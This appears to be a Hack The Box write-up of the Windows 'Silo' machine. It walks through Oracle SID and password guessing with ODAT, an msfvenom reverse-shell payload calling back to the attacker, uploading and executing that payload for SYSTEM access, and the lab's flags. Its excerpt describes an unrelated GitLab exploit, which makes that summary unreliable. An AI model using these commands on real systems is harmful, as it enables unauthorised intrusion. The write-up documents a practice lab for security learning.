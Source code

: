```yaml
---
layout: single
title: Silo - Hack The Box
excerpt: "A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag" 
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-silo/silo_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Odat
  - SQL
---
```


![](/assets/images/htb-writeup-silo/silo_logo.png)

To fill

## Portscan
```bash
❯ nmap -sCV -p80,135,139,445,1521,5985,8080,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.129.95.188 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 14:45 CEST
Nmap scan report for 10.129.95.188
Host is up (0.047s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         Oracle XML DB Enterprise Edition httpd
|_http-server-header: Oracle XML DB/Oracle Database
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=XDB
|_http-title: 400 Bad Request
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time:
|   date: 2022-09-23T12:47:15
|_  start_date: 2022-09-23T12:08:02
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
```
After some tests...
```bash
❯ whatweb http://10.129.95.188:80
ERROR Opening: http://10.129.95.188:80 - execution expired
❯ curl -s -X GET http://10.129.95.188:80
❯ rpcclient -U "" 10.129.95.188 -N
Cannot connect to server.  Error was NT_STATUS_IO_TIMEOUT
❯ smbclient -L //10.129.95.188 -N
do_connect: Connection to 10.129.95.188 failed (Error NT_STATUS_IO_TIMEOUT)
❯ crackmapexec smb 10.129.95.188
SMB         10.129.95.188   445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
❯ smbmap -H 10.129.95.188
[!] Authentication error on 10.129.95.188
❯ smbmap -H 10.129.95.188 -u 'null'
[!] Authentication error on 10.129.95.188
```
Oracle Database calls our attention. We could solve this machine using [ODAT](https://github.com/quentinhardy/odat) or manually
1. ODAT
  - Installation
  ```bash
  git clone https://github.com/quentinhardy/odat
  cd odat/
  git submodule init
  git submodule update
  sudo apt-get install libaio1 python3-dev alien python3-pip
  ```
  Get instant client basic, sdk(devel) and sqlplus from the Oracle web site
  ```bash
  ❯ ls
  oracle-instantclient-basic-21.7.0.0.0-1.el8.x86_64.rpm
  oracle-instantclient-devel-21.7.0.0.0-1.el8.x86_64.rpm
  oracle-instantclient-sqlplus-21.7.0.0.0-1.el8.x86_64.rpm
  ❯ sudo alien --to-deb *
  ❯ sudo dpkg -i *.deb
  ```
  We add these variables in our zshrc checking the correct version. How? 
  ```bash
  ❯ ls /usr/lib/oracle
  21
  ```
  In my case is 21, so the final result in my zshrc will be: 
  ```bash
  export ORACLE_HOME=/usr/lib/oracle/21/client64/
  export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
  export PATH=${ORACLE_HOME}bin:$PATH
  ```
  Last step:
  ```bash
  ❯ pip3 install cx_Oracle
  ```  
  This will be enough to use the tool.
  ```bash
  ❯ python3 odat.py --help
  ```
  - Sidguesser
  ```bash
  ❯ python3 odat.py sidguesser -s 10.129.95.188
  [1] (10.129.95.188:1521): Searching valid SIDs
  [1.1] Searching valid SIDs thanks to a well known SID list on the 10.129.95.188:1521 server
  [+] 'XE' is a valid SID
  ```
  - Passwordguesser.
  ```bash
  ❯ head -n 3 accounts/accounts.txt
  abm/abm
  adams/wood
  adldemo/adldemo
  ```
  By default, ODAT is using accounts/accounts.txt as dictionary. But we will use other with the correct format that it supports.
  ```bash
  ❯ locate oracle_ | grep pass
  /usr/share/metasploit-framework/data/wordlists/hci_oracle_passwords.csv
  /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
  /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
  ```
  Change the format
  ```bash
  ❯ cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' > ourNewDictionary.txt
  ```
  Let's utilize our custom dictionary
  ```bash
  ❯ python3 odat.py passwordguesser -s 10.129.95.188  -d XE --accounts-file ourNewDictionary.txt
  [+] Valid credentials found: scott/tiger. Continue...
  100% |##################################################################| Time: 00:32:37
  [+] Accounts found on 10.129.95.188:1521/sid:XE:
  scott/tiger
  ```
  Are this valid credentials?
  ```bash
  ❯ crackmapexec smb 10.129.95.188 -u 'scott' -p 'tiger'
  SMB         10.129.95.188   445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
  SMB         10.129.95.188   445    SILO             [-] SILO\scott:tiger STATUS_LOGON_FAILURE
  ```
  - It seems that is not working. Let's continue with odat and the utlfile option to test if we are able to see the /etc/hosts on the Windows machine
  ```bash
  ❯ python3 odat.py utlfile -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --getFile 'C:\Windows\System32\drivers\etc\' 'hosts' 'hosts' --sysdba
  [1] (10.129.95.188:1521): Read the hosts file stored in C:\Windows\System32\drivers\etc\ on the 10.129.95.188 server
  [+] Data stored in the hosts file sored in C:\Windows\System32\drivers\etc\ (copied in hosts locally):
  b"# Copyright (c) 1993-2009 Microsoft Corp.\n#\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\n#\n# This file contains the mappings of IP addresses to host names. Each\n# entry should be kept on an individual line. The IP address should\n# be placed in the first column followed by the corresponding host name.\n# The IP address and the host name should be separated by at least one\n# space.\n#\n# Additionally, comments (such as these) may be inserted on individual\n# lines or following the machine name denoted by a '#' symbol.\n#\n# For example:\n#\n#      102.54.94.97     rhino.acme.com          # source server\n#       38.25.63.10     x.acme.com              # x client host\n\n# localhost name resolution is handled within DNS itself.\n#\t127.0.0.1       localhost\n#\t::1             localhost\n"
  ```
  It works. We want to establish a reverse shell with netcat. In order to be able to carry it out, we need to create a payload and upload it into the victim machine.
  ```bash
  ❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.87 LPORT=4126 -f exe -o badshell.exe
  ```
  ```bash
  ❯ python3 odat.py utlfile -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --putFile 'C:\Windows\Temp\' 'shell.exe' 'badshell.exe' --sysdba
  [1] (10.129.95.188:1521): Put the badshell.exe local file in the C:\Windows\Temp\ folder like shell.exe on the 10.129.95.188 server
  [+] The badshell.exe file was created on the C:\Windows\Temp\ directory on the 10.129.95.188 server like the shell.exe file
  ```
  It would only be necessary to execute it.
  ```bash
  ❯ python3 odat.py externaltable -s 10.129.95.188 -d 'XE' -U 'scott' -P 'tiger' --exec 'C:\Windows\Temp\' 'shell.exe' --sysdba
  [1] (10.129.95.188:1521): Execute the shell.exe command stored in the C:\Windows\Temp\ path
  ```
  In our machine,
  ```bash
  ❯ rlwrap nc -lvnp 4126
  listening on [any] 4126 ...
  connect to [10.10.14.87] from (UNKNOWN) [10.129.95.188] 49178
  Microsoft Windows [Version 6.3.9600]
  (c) 2013 Microsoft Corporation. All rights reserved.
  C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
  nt authority\system
  ```
***

User flag: b2397834bc61db5f4662b02f2b61abec

Root flag: e0bd696617d563b54bbe214080d25cc2
